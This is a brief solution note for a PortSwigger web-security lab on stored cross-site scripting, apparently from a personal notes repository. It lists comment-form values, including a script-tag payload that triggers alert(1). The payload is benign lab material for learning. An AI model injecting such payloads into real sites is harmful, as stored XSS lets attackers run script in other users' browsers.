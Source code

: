 # Lab: Stored XSS into HTML context with nothing encoded
# https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

```bash
# Click to view post and create a comment.
Comment: <script> alert(1) </script>
Name: a
Email: a@gmail.com
Website: https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded
```
